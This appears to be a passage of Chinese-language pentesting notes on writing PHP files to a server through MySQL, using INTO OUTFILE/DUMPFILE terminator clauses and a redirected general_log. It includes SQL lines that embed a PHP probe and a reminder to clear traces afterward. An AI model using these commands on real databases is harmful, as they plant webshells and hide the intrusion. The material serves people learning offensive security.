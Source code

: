 所以使用`into dumpfile`这个函数来写入二进制文件

![image-20230522180009679](../../../../images/image-20230522180009679.png)





**非联合查询**

```mysql
select *from users where id=1 into outfile 'C:\info.php' fields terminated by '<?php phpinfo();?>';

select *from users where id=1 into outfile 'C:\info2.php' lines terminated by '<?php phpinfo();?>';
```

![image-20230522180543767](../../../../images/image-20230522180543767.png)



##### 写入日志文件

```mysql
# --查看配置，日志是否开启，和mysql默认log地址(记下原地址方便恢复)
show variables like '%general%';

set global general_log = on;

set global general_log_file = 'e:\info.php'; # 这里日志创建权限要低一些，不能在c盘创建

select '<?php phpinfo();?>';

--结束后，痕迹清理
```

日志慢查询

From：https://wiki.wgpsec.org/knowledge/web/mysql-write-shell.html

> 为什么要用慢查询写呢？因为开启日志监测后文件会很大，网站访问量大的话我们写的shell会出错
